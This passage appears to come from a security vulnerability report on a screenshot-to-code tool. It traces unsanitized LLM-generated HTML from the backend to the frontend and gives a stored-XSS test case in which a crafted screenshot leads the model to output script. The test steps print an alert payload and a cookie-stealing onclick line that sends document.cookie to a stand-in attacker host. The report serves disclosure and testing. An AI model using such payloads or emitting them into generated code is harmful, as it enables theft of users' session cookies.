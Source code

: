         for index, updated_html in enumerate(updated_completions):
            await send_message("setCode", updated_html, index) # Unsanitized code sent to frontend
        await websocket.close()
    ```

3.  **`backend\codegen\utils.py`**: The `extract_html_content` function extracts HTML using regex but **does not perform sanitization**. It just extracts the HTML string as is.

    ```python
    def extract_html_content(text: str) -> str:
        """Extracts the HTML content from a string.
        """
        html_match = re.search(r"(<html.*?>.*?</html>)", text, re.DOTALL)
        if html_match:
            return html_match.group(1)
        return text
    ```

4.  **`backend\evals\core.py`**: Functions like `generate_code_for_image` also call LLM functions and return the generated code without sanitization.

    ```python
    async def generate_code_for_image(
        image_url: str,
        prompt_type: PromptType,
        llm_type: Llm,
        api_key: str | None,
        base_url: str | None,
    ) -> str:
        # ...
        completion = await stream_claude_response(...) # Calls LLM, no sanitization in stream_claude_response
        return completion["code"] # Returns unsanitized code
    ```

5.  **Frontend Code (Not Provided, but Likely Vulnerable):**  It is presumed that the frontend is designed to render the HTML code received from the backend. If the frontend uses methods like `innerHTML` or similar DOM manipulation APIs directly with the unsanitized HTML string, it will be vulnerable to XSS.

### Security Test Case:
This test case outlines steps to verify the Stored XSS vulnerability:

1.  **Precondition:** Ensure the application is running locally (`http://localhost:5173`).
2.  **Craft Malicious Screenshot:** Create an image visually representing a button with text designed to inject Javascript. For example, an image of a button with the text `<button onclick="alert('XSS-Test')">Click Me</button>`. Save as `xss_screenshot.png`.
3.  **Upload Malicious Screenshot:** In the application frontend, upload `xss_screenshot.png`.
4.  **Initiate Code Generation:** Select any stack and click "Generate Code".
5.  **Inspect Generated Code (Optional):** Use browser developer tools (Network tab) to intercept the API response and verify if the generated HTML code contains the malicious Javascript payload (e.g., `<button onclick="alert('XSS-Test')">Click Me</button>`).
6.  **Render and Execute XSS Payload:** Observe the rendered output in the frontend. If vulnerable, interacting with the generated element (e.g., clicking the button) should trigger the Javascript alert box "XSS-Test", confirming XSS execution.
7.  **Verify XSS Impact:** For a more impactful demonstration, modify the payload to perform more harmful actions instead of `alert()`, such as redirecting to an attacker's site or attempting to steal cookies. For example, use  `onclick="document.location='https://attacker.com/cookie-stealer?cookie='+document.cookie"`.

**Important Note:** Perform testing in a safe, isolated environment and never against a production system without explicit permission.
